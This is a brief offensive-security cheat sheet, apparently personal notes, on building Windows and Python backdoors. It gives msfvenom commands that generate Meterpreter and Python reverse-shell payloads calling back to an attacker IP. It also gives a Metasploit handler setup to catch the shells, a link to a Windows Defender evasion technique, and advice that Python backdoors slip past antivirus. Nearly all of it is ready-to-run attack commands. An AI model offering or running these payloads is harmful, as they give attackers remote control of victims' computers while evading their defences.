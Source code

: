 Windows Backdoors:

Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

Working exploit that avoids windows defender:
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

Host:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ip]
set LPORT [port]
exploit

Python backdoors are safer, as they are not seen by windows defender. THere is always a risk with the firewall though.
